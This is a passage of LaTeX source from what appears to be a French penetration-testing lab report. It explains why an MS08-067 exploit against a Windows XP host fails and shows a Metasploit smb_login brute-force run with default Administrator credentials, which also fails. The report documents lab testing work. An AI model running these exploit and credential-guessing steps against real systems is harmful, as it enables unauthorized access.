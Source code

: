 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	
	❌ \textbf{Échec :} L'exploit se déclenche correctement (fingerprint réussi, cible identifiée), mais aucune session n'est créée.
	
	\textbf{Causes Possibles :}
	\begin{enumerate}
		\item \textbf{Patch Appliqué :} Le système Windows XP a reçu la mise à jour de sécurité MS08-067 (KB958644).
		\item \textbf{DEP Activé :} Data Execution Prevention bloque l'exécution du shellcode.
		\item \textbf{Pare-feu Local :} Windows Firewall bloque la connexion de la charge utile bind.
		\item \textbf{Incompatibilité de charge utile :} La charge utile via pivot ne parvient pas à s'exécuter correctement.
	\end{enumerate}
	
	\subsection{Tentative d'Authentification SMB}
	
	En l'absence d'exploits fonctionnels, nous tentons un accès légitime via bruteforce de mots de passe.
	
	\subsubsection{Test d'identifiants par défaut}
	
	\begin{lstlisting}[caption=Bruteforce SMB via Metasploit]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_login
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBUser Administrator
		SMBUser => Administrator
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBPass admin
		SMBPass => admin
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> run
		
		[*] 192.168.20.50:445     - Starting SMB login bruteforce
		[-] 192.168.20.50:445     - Failed: '.\Administrator:admin'
		[*] 192.168.20.50:445     - Bruteforce completed, 0 credentials were successful.
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
\end{document}
